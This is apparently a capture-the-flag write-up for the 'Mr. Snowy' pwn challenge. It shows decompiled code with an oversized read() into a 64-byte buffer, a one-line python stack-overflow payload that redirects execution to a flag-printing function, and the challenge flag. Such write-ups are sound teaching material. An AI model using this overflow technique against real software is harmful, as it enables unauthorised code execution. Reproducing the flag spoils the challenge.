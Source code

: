 # Pwn :: Mr. Snowy

### Challenge Files: [pwn_mr_snowy.zip](pwn_mr_snowy.zip)

For this challenge, we are provided with an executable, **mr_snowy**, an example flag.txt, and also a networked service to connect to. Running the program shows a little text adventure game involving a snowman that is a little *sus*. However, you find that basically any available choice runs into a deadend. So there has to be some way to get where we wanna be.

![mr_snowy](img/1.png)

Opening the executable in Ghidra, we can see a function called **deactivate_camera()** that prints the flag, however it is not referenced anywhere else in the program.

```c 
void deactivate_camera(void)

{
  char acStack104 [48];
  FILE *local_38;
  char *local_30;
  undefined8 local_28;
  int local_1c;
  
  local_1c = 0x30;
  local_28 = 0x2f;
  local_30 = acStack104;
  local_38 = fopen("flag.txt","rb");
  if (local_38 == (FILE *)0x0) {
    fwrite("[-] Could not open flag.txt, please conctact an Administrator.\n",1,0x3f,stdout);
                    /* WARNING: Subroutine does not return */
    exit(-0x45);
  }
  fgets(local_30,local_1c,local_38);
  puts("\x1b[1;32m");
  fwrite("[+] Here is the secret password to deactivate the camera: ",1,0x3a,stdout);
  puts(local_30);
  fclose(local_38);
  return;
}
```

So this seems like a classic target for a buffer overflow to redirect execution to the target function.

The vulnerability comes in the **investigate()** function, where the program tries to read 264 bytes from stdin into a buffer that is only 64 bytes:

```c 
void investigate(void)

{
  int iVar1;
  char local_48 [64];  // <-------- buffer
  
  fflush(stdout);
  printstr(&DAT_00401878);
  fflush(stdout);
  read(0,local_48,0x108);    // <--------- too big
  iVar1 = atoi(local_48);
  if (iVar1 == 1) {
    puts("\x1b[1;31m");
    printstr("[!] You do not know the password!\n[-] Mission failed!\n");
                    /* WARNING: Subroutine does not return */
    exit(0x16);
  }
  iVar1 = atoi(local_48);
  if (iVar1 == 2) {
    puts("\x1b[1;31m");
    printstr(
            "[!] This metal seems unbreakable, the elves seem to have put a spell on it..\n[-] Mission failed!\n"
            );
                    /* WARNING: Subroutine does not return */
    exit(0x16);
  }
  fflush(stdout);
  puts("\x1b[1;31m");
  fflush(stdout);
  puts("[-] Mission failed!");
  fflush(stdout);
  return;
}
```

So the payload needs to go to the investigate menu, overflow the buffer, and then redirect the return to the target function which is at 0x401165 (they're nice and don't use ASLR)

For this I used:

```
python3 -c "print('1\x00'+'A'*64+'\x00'*8+'\x65\x11\x40\x00',end='')" | ./mr_snowy
```

The first 1 and null byte are read as a C-string and advance us to the next menu, then we fill the buffer, plus 8 bytes to reach the return address, and then our target address function in reverse byte order. Notice I made sure not to print a newline (since that goes to the payload as well).

![mr_snowy](img/2.png)

Sending this same payload to the network service we're trying to pwn, has the same result but gives us the real flag:

![mr_snowy](img/3.png)

```HTB{n1c3_try_3lv35_but_n0t_g00d_3n0ugh} ```
